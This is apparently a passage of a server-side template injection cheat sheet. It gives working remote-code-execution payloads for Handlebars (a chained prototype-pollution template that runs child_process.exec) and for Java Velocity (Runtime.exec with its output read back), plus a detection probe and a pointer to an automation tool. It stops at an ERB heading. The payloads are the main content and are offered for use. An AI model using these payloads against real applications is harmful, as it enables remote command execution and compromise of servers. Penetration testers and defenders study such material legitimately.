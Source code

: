 ##  **Handlebars (NodeJS)**

Handlebars blocks logic heavily; use prototype pollution or helpers.
### Prototype Pollution-based RCE (complex chain):

```handlebars
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').exec('id');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

_Use `tplmap` to automate Handlebars and Node-based SSTI chains._

---

##  **Velocity (Java)**

### Detection:

```velocity
#set($a = 1+2) → $a
```
### RCE:

```velocity
#set($str=$class.inspect("java.lang.String").type)
#set($chr=$class.inspect("java.lang.Character").type)
#set($ex=$class.inspect("java.lang.Runtime").type.getRuntime().exec("id"))
$ex.waitFor()
#set($out=$ex.getInputStream())
#foreach ($i in [1..$out.available()])$str.valueOf($chr.toChars($out.read()))#end
```

---

##  **ERB (Ruby)**
